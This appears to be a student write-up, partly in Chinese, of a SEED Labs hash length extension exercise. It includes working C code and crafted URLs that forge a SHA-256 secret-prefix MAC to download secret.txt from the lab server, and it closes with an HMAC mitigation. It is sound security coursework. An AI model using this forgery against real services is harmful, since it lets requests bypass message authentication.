



# Hash Length Extension

## Task 1: Send Request to List Files

```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1" | sha256sum 87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c  -
```

使用浏览器打开

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1
&mac=87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c
```


```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1&download=secret.txt" | sha256sum 1f2aa7976c6a0590734c06a1793c2143072bf7e423e44f64345bae7239b32e2f  -

```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1&download=secret.txt
&mac=1f2aa7976c6a0590734c06a1793c2143072bf7e423e44f64345bae7239b32e2f
```



## Task 2: Create Padding

```
"123456:myname=rikka&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x28"

```

```
123456:myname=rikka&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%28
```


## Task 3: The Length Extension Attack

```shell
$ echo -n "123456:myname=rikka&uid=1001&lstcmd=1" | sha256sum 87d362541622ea812e984a6068b2bafcfa19acc468989fdc29e3044cec33f56c  -
```


```c
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>
int main(int argc, const char *argv[])
{
	int i;
	unsigned char buffer[SHA256_DIGEST_LENGTH];
	SHA256_CTX c;
	SHA256_Init(&c);
	for (i = 0; i < 64; i++)
		SHA256_Update(&c, "*", 1);
// MAC of the original message M (padded)
	c.h[0] = htole32(0x87d36254);
	c.h[1] = htole32(0x1622ea81);
	c.h[2] = htole32(0x2e984a60);
	c.h[3] = htole32(0x68b2bafc);
	c.h[4] = htole32(0xfa19acc4);
	c.h[5] = htole32(0x68989fdc);
	c.h[6] = htole32(0x29e3044c);
	c.h[7] = htole32(0xec33f56c);
// Append additional message
	SHA256_Update(&c, "&download=secret.txt", 20);
	SHA256_Final(buffer, &c);
	for (i = 0; i < 32; i++) {
		printf("%02x", buffer[i]);
	}
	printf("\n");
	return 0;
}
```

```shell
$ gcc length_ext.c -o length_ext -lcrypto
$ ./length_ext
ab3e51572ac54bad12e8c47d5ef57e3604752e70eb60bad4e28c94e01fc30a01

```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%28&download=secret.txt&mac=ab3e51572ac54bad12e8c47d5ef57e3604752e70eb60bad4e28c94e01fc30a01

```



## Task 4: Attack Mitigation using HMAC

`my_hmac.py`:

```python
#!/bin/env python3
import hmac
import hashlib
key='123456'
message='myname=rikka&uid=1001&lstcmd=1'
mac = hmac.new(bytearray(key.encode('utf-8')),msg=message.encode('utf-8', 'surrogateescape'),digestmod=hashlib.sha256).hexdigest()
print(mac)
```

```
http://www.seedlab-hashlen.com/?myname=rikka&uid=1001&lstcmd=1&mac=d178eb2f8c958035d313c4303528b50876a25ae704ac62dda11b468bcad4efe3
```




